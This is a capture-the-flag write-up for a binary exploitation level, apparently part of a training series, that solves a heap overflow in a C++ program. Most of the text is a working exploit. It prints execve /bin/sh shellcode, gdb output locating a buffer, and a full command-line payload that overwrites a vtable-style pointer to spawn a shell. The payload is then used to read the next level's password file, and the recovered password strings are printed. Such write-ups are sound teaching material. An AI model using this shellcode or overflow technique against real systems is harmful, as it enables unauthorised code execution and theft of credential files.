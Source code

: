 # Level 9
*pass : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*

```
$ scp -P 4242 level9@192.168.56.108:level9 binary/
```
0x6c = 108

shellcode : 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
```
(gdb) disas main
...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
  ...
(gdb) 
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run test
(gdb) x/x $eax
0x804a00c
```
buffer address : 0x804a00c
address buffer + 4 : 0x804a010

```
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 79 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
